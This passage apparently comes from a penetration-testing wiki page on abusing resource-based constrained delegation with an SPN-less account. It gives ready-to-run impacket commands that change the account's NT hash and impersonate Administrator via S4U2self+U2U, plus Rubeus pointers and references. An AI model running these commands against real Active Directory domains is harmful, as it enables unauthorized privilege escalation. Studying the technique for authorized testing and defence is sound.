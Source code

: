 
```bash
# Obtain a TGT through overpass-the-hash to use RC4
getTGT.py -hashes :$(pypykatz crypto nt 'SomePassword') 'domain'/'controlledaccountwithoutSPN'

# Obtain the TGT session key
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'

# Change the controlledaccountwithoutSPN's NT hash with the TGT session key
smbpasswd.py -newhashes :TGTSessionKey 'domain'/'controlledaccountwithoutSPN':'SomePassword'@'DomainController'

# Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
KRB5CCNAME='TGT.ccache' getST.py -u2u -impersonate "Administrator" -spn "host/target.domain.com" -k -no-pass 'domain'/'controlledaccountwithoutSPN'

# The password can then be reset to its old value (or another one if the domain policy forbids it, which is usually the case)
smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash 'domain'/'controlledaccountwithoutSPN'@'DomainController'
```


After these steps, the final service ticket can be used with [Pass-the-ticket](../ptt.md).


=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to operate the technique.

The steps detailed in [PR #137](https://github.com/GhostPack/Rubeus/pull/137) can be followed.

After these steps, the final service ticket can be used with [Pass-the-ticket](../ptt.md).

:::


## Resources

[https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

[https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

[https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/](https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/)

[https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/](https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/)

[https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)

[https://tttang.com/archive/1617/](https://tttang.com/archive/1617/)
